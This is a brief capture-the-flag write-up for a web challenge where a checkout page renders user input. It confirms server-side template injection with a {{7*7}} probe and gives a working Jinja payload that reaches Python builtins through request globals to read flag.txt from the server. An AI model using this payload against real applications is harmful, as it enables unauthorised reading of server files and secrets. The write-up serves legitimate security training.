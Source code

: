 The website simply renders our input to the checkout page.
Entering `{{7*7}}` confirms that we have an SSTI vulnerability, and it's likely using Jinja.

![](./img/ssti-test.png)

## Solution

To solve the challenge, we'll use the SSTI vulnerability to read the flag.

```
{{ request.__class__._load_form_data.__globals__.__builtins__.open("flag.txt").read() }}
```

![](./img/music-checkout-flag.png)

> We were given the source code for this challenge, so we could have discovered the SSTI from there as well.